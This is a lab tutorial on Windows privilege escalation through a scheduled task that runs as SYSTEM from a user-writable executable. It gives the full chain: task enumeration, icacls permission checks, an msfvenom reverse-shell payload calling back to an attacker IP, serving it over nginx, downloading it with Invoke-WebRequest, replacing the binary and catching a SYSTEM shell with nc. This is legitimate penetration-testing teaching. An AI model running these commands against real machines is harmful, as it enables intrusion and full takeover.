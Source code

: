 # **Schedule Task - Windows Privilege Escalation**

## 1. Introduction to Windows Task Scheduler

Windows Task Scheduler is a built-in service that allows users to automate the execution of tasks at specified times or upon certain triggers. Administrators commonly use this feature for system maintenance, but attackers can also exploit it for persistence and privilege escalation.
An adversary can manipulate scheduled tasks to execute malicious code with elevated privileges. This attack vector is particularly useful when a task is configured to run with SYSTEM privileges but its executable is writable by a low-privileged user.
## 2. Abusing Scheduled Tasks for Privilege Escalation
By identifying a scheduled task that executes as SYSTEM, an attacker with write permissions to its executable can replace it with a malicious payload. The next time the task runs, the payload executes with SYSTEM privileges, providing full control over the compromised machine.
The attack process follows these steps:
Identify a scheduled task running with SYSTEM privileges.
Check if the current user has write or modify permissions on the task's executable file.
Replace the executable with a malicious payload.
Wait for the task to run and gain a SYSTEM shell.
## 3. Setting Up the Lab Environment
For this demonstration, we set up a Windows 10 victim machine and a Kali Linux attacker machine.
Attacker: Kali Linux (192.168.100.10) running Metasploit Framework
Victim: Windows 10 (192.168.1.11) with a scheduled task
Creating the Scheduled Task for demo
Create C:\Custom Tasks\Backup\Test.exe	
Run the following PowerShell script as an administrator on the victim machine:
$Action = New-ScheduledTaskAction -Execute "C:\Custom Tasks\Backup\Test.exe"

$Trigger1 = New-ScheduledTaskTrigger -AtLogOn
$Trigger2 = New-ScheduledTaskTrigger -Once -At (Get-Date) -RepetitionInterval (New-TimeSpan -Minutes 5) -RepetitionDuration (New-TimeSpan -Hours 24)

$Principal = New-ScheduledTaskPrincipal -UserId "NT AUTHORITY\SYSTEM" -LogonType ServiceAccount -RunLevel Highest

$Task = New-ScheduledTask -Action $Action -Trigger $Trigger1, $Trigger2 -Principal $Principal

Register-ScheduledTask -TaskName "BackupTaskDemo" -InputObject $Task -Force
Explanation of Each Part of the Script:
$Action → Executes the file "C:\Custom Task\Backup\Test.ext".
$Trigger1 → Activates when the user logs in.
$Trigger2 → Repeats every 5 minutes for 24 hours after initialization.
$Principal → Runs with SYSTEM privileges, without requiring a password, and executes with the highest privileges.
Register-ScheduledTask → Registers the task with the name "BackupTaskDemo".

✅ Deleting the Task After Completion
If you want to remove the task after 24 hours, you can use the following PowerShell command:
powershell
CopyEdit
Start-Sleep -Seconds 86400  # Wait for 24 hours
Unregister-ScheduledTask -TaskName "BackupTaskDemo" -Confirm:$false
Alternatively, you can include this in the main script for automatic removal.

✅ Manually Deleting the Task If Needed
If you need to delete the task immediately, use:
powershell
CopyEdit
Unregister-ScheduledTask -TaskName "BackupTaskDemo" -Confirm:$false


Before we dive into the enumeration of scheduled tasks, we need to understand our visibility as a standard user.
Unfortunately for us as the attacker, Microsoft does something pretty smart and only allows standard users to view scheduled tasks that belong to them. This means that any tasks we are interested in, such as those created by the administrator, we will not see when trying to query for them.
For example, if we use the following command with administrative permissions, we can query the scheduled task to find information about how it works:
schtasks /query /fo LIST /v | findstr /B /C:"Folder" /C:"TaskName" /C:"Run As User" /C:"Schedule" /C:"Scheduled Task State" /C:"Schedule Type" /C:"Repeat: Every" /C:"Comment"
 

This provides us with a lot of good information about the task. For starters, the task name is “BackupTaskDemo”. Additionally we can see that the task runs every five minutes and executes as SYSTEM.

 Let’s check if our user is any interesting groups.
net user Heaven 
 

Enumerating Folder Permissions

we can check our permissions on the folder using the built-in icacls command. 
First, we will see how we can use the icacls command to check the permissions of folder and file ACLs.
The permissions we are looking for on the Backup folder are any one of the following three permissions:
(F) Full Control
(M) Modify
(W) Write
The user / group permissions we are looking for are the following:
The user we are currently logged in as (%USERNAME%)
Authenticated Users
Everyone
BUILTIN\Users
NT AUTHORITY\INTERACTIVE
We want to check the permissions of both the Backup folder as well as the permissions on the executable itself. Starting with the folder since it is most likely that the file permissions will be inherited from the folder permissions. This is the default behaviour; however, there are times we can find that the folder is not writeable but the file is.
icacls "C:\Custom Tasks\Backup"

icacls "C:\Custom Tasks\Backup\Test.exe"
	 
This shows that authenticated users have the ability to Modify files in the folder. Also, we can see an (I) indicating that the permissions were inherited, as expected. We also see that the Backup folder has inherited permissions, ultimately meaning that we have Modify permissions on the Custom Tasks folder and those permissions have been inherited to all sub folders and files.

Exploiting a Scheduled Task to get a SYSTEM Shell
Now that we have found a scheduled task, we need to craft our own malware to replace the legitimate task binary.

Using Metasploit to create payload	

On Kali Linux, open a terminal and generate a malicious executable:
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.100.10 LPORT=4444 -a x64 --platform Windows -f exe -o payload.exe
Step 3: Send Payload through Nginx Server
cd /tmp
sudo apt install nginx -y
sudo cp payload.exe /var/www/html/
sudo systemctl restart nginx
Setting Up a Listener on Kali Linux
To capture the reverse shell, the attacker sets up a Metasploit listener:
nc -nvlp 4444
Downloading the payload on Windows:

Invoke-WebRequest -Uri "http://192.168.100.10/payload.exe" -OutFile "C:\Windows\Temp\payload.exe"

	
Lastly, we need to move our malicious version of payload.exe into the C:\Custom Tasks\Backup folder.
Replacing the Original Executable


Copy-Item -Path "C:\Windows\Temp\payload.exe" -Destination "C:\Custom Tasks\Backup\Test.exe" -Force
	
when we check our listener, we have a SYSTEM shell!


	 


 
 
